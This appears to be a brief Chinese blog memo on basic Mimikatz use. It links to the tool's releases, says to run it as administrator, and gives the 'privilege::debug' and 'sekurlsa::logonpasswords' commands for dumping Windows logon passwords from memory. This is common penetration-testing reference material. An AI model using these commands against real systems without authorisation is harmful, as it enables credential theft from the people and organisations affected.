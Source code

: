 ```yaml
---
title: Mimikatz简单使用（备忘）
date: 2017-4-28 18:09
tags: Mimikatz
---
```

* 下载地址：
[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)
* 简单使用：
	* step1:
以管理员身份运行mimikatz.exe
(根据计算机系统选择相应版本)
	* step2:
```
privilege::debug

#提升权限
```
	* step3:
```
sekurlsa::logonpasswords

#获取密码
```
